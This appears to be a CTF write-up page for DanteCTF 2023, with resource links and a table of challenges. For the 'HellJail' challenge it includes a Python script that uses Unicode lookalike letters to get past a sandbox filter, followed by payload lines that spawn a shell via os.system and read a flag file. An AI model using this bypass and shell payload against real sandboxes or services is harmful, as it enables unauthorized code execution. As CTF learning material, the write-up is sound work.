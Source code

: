 #### HellJail

```python
# from the writeups - @AbuQasem
import string,sys

fake_alphabet = "𝔞 𝔟 𝔠 𝔡 𝔢 𝔣 𝔤 𝔥 𝔦 𝔧 𝔨 𝔩 𝔪 𝔫 𝔬 𝔭 𝔮 𝔯 𝔰 𝔱 𝔲 𝔳 𝔴 𝔵 𝔶 𝔷".split(" ")
real_alphabet = string.ascii_lowercase
trans = str.maketrans("".join(real_alphabet), "".join(fake_alphabet))

code = sys.argv[1]
converted_code = code.translate(trans)

print(converted_code)

# python3 exploit.py "eval(input('x '))"
# __import__('os').system('sh')
# cat flag.txt
```



### Resources
* http://www.aprs.org/iss-aprs/issicons.html
* http://www.aprs.org/doc/APRS101.PDF
* https://inst.eecs.berkeley.edu/~ee123/sp15/lab/lab6/Lab6_Part_B-APRS.html
* https://github.com/BlackVS/Awesome-CTS
* https://crypto.stackexchange.com/questions/50068/how-to-attack-merkle-hellman-cryptosystem-if-the-first-element-in-the-superincre
* http://www.cs.sjsu.edu/faculty/stamp/papers/topics/topic16/Knapsack.pdf
* https://born2scan.run/writeups/2023/06/02/DanteCTF.html
* https://github.com/born2scan/dantectf-23




### List
|Category|Challenge|Description
|----|----|----
|Crypto|Adventurer's Knapsack|Low density attack on Merkle-Hellman Knapsack cryptography
|Crypto|DIY enc|control plain-text length attack
|Crypto|PiedPic|Image cryptography
|Crypto|Small Inscription|
|Forensics|Almost Perfect Remote Signing|APRS signals in wav -> GPS coords -> Plot
|Forensics|Dirty Checkerboard|
|Forensics|Do You Know GIF?|
|Forensics|Imago Qualitatis|text/image in Raw IQ data
|Forensics|Routes Mark The Spot|PCAP with ipv6 traffic
|Forensics|Who Can Haz Flag|
|Misc|Demonic Navigation Skills|DNS navigation of CLASS9 records
|Misc|Flag Fabber|
|Misc|Gloomy Wood|
|Misc|Hanging Nose|
|Misc|HellJail|
|Misc|StrangeBytes| AES encrypted files with IV+KEY injected into each file
